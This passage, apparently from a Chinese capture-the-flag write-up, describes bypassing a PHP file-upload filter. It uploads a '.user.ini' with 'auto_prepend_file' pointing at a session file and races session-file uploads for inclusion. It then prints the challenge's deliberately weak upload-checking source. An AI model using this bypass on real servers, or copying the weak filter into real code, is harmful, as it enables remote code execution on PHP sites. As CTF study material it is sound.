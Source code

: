 上传`.user.ini`:

```
GIF89a
auto_prepend_file=/tmp/sess_fllag
```

然后就开始session文件竞争上传和包含。

[![DDkU6P.md.png](https://s3.ax1x.com/2020/11/27/DDkU6P.md.png)](https://imgchr.com/i/DDkU6P)

成功。

这是题目源码：

```php
<?php

error_reporting(0);
if ($_FILES["file"]["error"] > 0)
{
	$ret = array("code"=>2,"msg"=>$_FILES["file"]["error"]);
}
else
{
    $filename = $_FILES["file"]["name"];
    $filesize = ($_FILES["file"]["size"] / 1024);
    if($filesize>1024){
    	$ret = array("code"=>1,"msg"=>"文件超过1024KB");
    }else{
    	if($_FILES['file']['type'] == 'image/png'){
            $arr = pathinfo($filename);
            $ext_suffix = $arr['extension'];
            if($ext_suffix!='php'){
                $content = file_get_contents($_FILES["file"]["tmp_name"]);
                if(stripos($content, "php")===FALSE && check($content) && getimagesize($_FILES["file"]["tmp_name"])){
                    move_uploaded_file($_FILES["file"]["tmp_name"], "upload/".$_FILES["file"]["name"]);
                    $ret = array("code"=>0,"msg"=>"upload/".$_FILES["file"]["name"]);
                }else{
                    $ret = array("code"=>2,"msg"=>"文件类型不合规");
                }
                
            }else{
                $ret = array("code"=>2,"msg"=>"文件类型不合规");
            }
    		
    	}else{
    		$ret = array("code"=>2,"msg"=>"文件类型不合规");
    	}
    	
    }

}
function check($str){
    return !preg_match('/php|\{|\[|\;|log|\(| |\`|flag|\./i', $str);
}

function clearUpload(){
    system("mv ./upload/index.php ./index.php_");
    system("rm -rf ./upload/*");
    system("mv ./index.php_ ./upload/index.php");
}

sleep(2);
clearUpload();
```